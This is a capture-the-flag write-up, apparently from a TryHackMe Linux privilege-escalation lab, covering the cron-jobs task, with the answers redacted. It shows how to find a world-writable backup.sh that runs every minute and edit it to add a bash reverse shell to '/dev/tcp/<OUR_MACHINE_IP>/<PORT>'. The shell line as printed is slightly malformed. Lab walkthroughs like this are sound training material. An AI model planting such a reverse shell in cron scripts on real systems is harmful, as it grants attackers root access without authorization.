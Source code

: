 ## **Task 9** Cron Jobs
**Task Questions:**
1. How many user-defined cron jobs can you see on the target system?  
   - Answer: **[REDACTED - number of cron jobs]**
2. What is the content of the flag5.txt file?  
   - Answer: **[REDACTED - flag format: THM-XXXXXXXXX]**
3. What is Matt's password?  
   - Answer: **[REDACTED - password]**

**Step-by-Step Process:**
- First I checked the /home/ubunutu/flag5.txt file, permission was denied, we need root escalation!

![permission denied](../../images/screenshots/linux-privilege-escalation/task9/flag5-denied.png)


- I used cat /etc/crontab to reveal available cron jobs and the one we will be working with is backup.sh as it runs once per minute and is easily exploitable.

![enumeration](../../images/screenshots/linux-privilege-escalation/task9/cronjobs-enumeration.png)


- Next we use Nano to modify backup.sh and add our reverse shell provided by the task, make sure to change to your tun0 IP and desired port:

```
#!/bin/bash`
bash -i /dev/tcp/<OUR_MACHINE_IP>/<PORT> 0>&1
```

![edit file](../../images/screenshots/linux-privilege-escalation/task9/nano-backup.png)
